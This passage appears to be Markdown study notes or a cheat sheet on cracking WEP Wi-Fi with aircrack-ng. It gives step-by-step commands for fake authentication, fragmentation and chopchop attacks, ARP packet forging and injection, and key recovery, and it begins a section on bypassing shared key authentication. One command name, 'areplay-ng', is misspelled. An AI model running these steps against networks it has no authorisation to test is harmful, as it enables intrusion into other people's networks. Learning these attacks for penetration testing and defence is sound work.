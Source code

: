 2. capture packets and save it to a file
`> airodump-ng -c <channel> --bssid <AP MAC> -w <dumpfile.name> <monitoring device>`

3. fake authenticate with the AP and stay connected (every 60sec reauthenticate)
`> aireplay-ng -1 60 -e <AP name> -a <AP MAC> -h <mon device MAC> <mon device>`

#### 3.3.2 fragmentation attack
Optain PRGA keystream . Used with packetforge-ng to replay optained packet.
Repeats until 1500 bytes of PRGA are obtained.

1. starting fragmentation attack dialogue and crate keystream file *.xor for packetforge
`> aireplay-ng -5 -b <AP MAC> -h <mon MAC> <mon dev> `

2. create encrypted ARP packet with packetforge-ng for injection
`> packetforge-ng -0 -a <AP MAC> -h <mon MAC> -l <source IP> -k <dest IP> -y <file.xor> -w <inject.file> `

3. inject created file into AP to create new IVs using interactive packet replay attack
`> areplay-ng -2 -r <inject.file> <mon dev>`

4. cracking the WEP Key
`> aircrack-ng -0 -z -n 64 <dumpfile.name>`

#### 3.3.3 KoreK chopchop attack
Decrypt WEP packet without knowing the key. Per byte recovery of key stream.
Can be used for:

- blind portscan the network
- decrypt interesting packets to learn about the network
- forge snmp packets
- create ARP request for IV generation

1. receive packet for decryption dialogue and create *.cap and *.xor file
`> aireplay-ng -4 -b <AP MAC> -h <mon MAC> <mon dev>`

2. create encrypted ARP packet with packetforge-ng for injection
`> packetforge-ng -0 -a <AP MAC> -h <mon MAC> -l <source IP> -k <dest IP> -y <file.xor> -w <inject.file> `

3. inject created file into AP to create new IVs using interactive packet replay attack
`> areplay-ng -2 -r <inject.file> <mon dev>`

4. Cracking the WEP Key
`> aircrack-ng -0 -z -n 64 <dumpfile.name>`

### 3.4 bypassing WEP SKA (shared key authentication)

#### 3.4.1 preparation

1. put device in monitoring mode
`> airmon-ng start <device> <channel>`

2. capture packets and save it to a file
`> airodump-ng -c <channel> --bssid <AP MAC> -w <dumpfile.name> <monitoring device>`

3. fake authenticate attack with the AP (should be failing due to SKA)
`> aireplay-ng -1 0 -e <AP name> -a <AP MAC> -h <mon device MAC> <mon device>`
